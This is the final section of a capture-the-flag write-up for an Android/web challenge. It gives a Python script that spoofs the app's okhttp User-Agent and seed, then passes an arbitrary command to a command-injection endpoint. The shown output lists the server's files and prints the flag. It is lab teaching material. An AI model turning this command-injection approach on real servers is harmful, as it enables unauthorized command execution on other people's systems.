 # The Finale 

Now we have everything we need to do to beat the challenge.

The methodology is that we need to send a packet, exploiting the command injection in `/experiment`. This packet must contain the `Okttp` User-Agent. Lastly, the payload need to contain a rolled(SHA256 hash) version of a `seed` or previous `code` on the server.

My original solution was using [Frida](https://frida.re/) to log the seed value from the app when ran. Then crafting a packet using that in Python. But there is a simpler way of spoofing the app with your own seed.

That version is below...

``` py
#!/usr/bin/env python3

import requests
import hashlib

def main():
    headers = {'User-Agent': 'okhttp'}
    seed = b'SEED:\x01\x01\x02\x03'

    URL0 = 'http://the-andro-experiment.ctf.ritsec.club/ping'
    response = requests.post(url=URL0, data=seed, headers=headers)

    command = input("Enter command: ")
    URL1='http://the-andro-experiment.ctf.ritsec.club/experiment?command=' + command
    payload = hashlib.sha256(b'\x01\x01\x02\x03').digest()

    response = requests.post(url=URL1, data=payload, headers=headers)
    print(response.text)


if __name__ == "__main__":
    main()
```

As you can see, we send the seed at first to `/ping` using `requests` with the `okhttp` User-Agent. This allows the user to then send the command given through user input to `URL1`. We hash the seed ourselves and replace the data of the request with that. Then we get our result.

```sh
$ ./simple_pwn.py
Enter command: ls
entrypoint.sh
flag.txt
main.py
requirements.txt
static
templates

$ ./simple_pwn.py
Enter command: cat flag.txt
RS{th3_myst3ry_k33ps_unf0ld1ng}
```
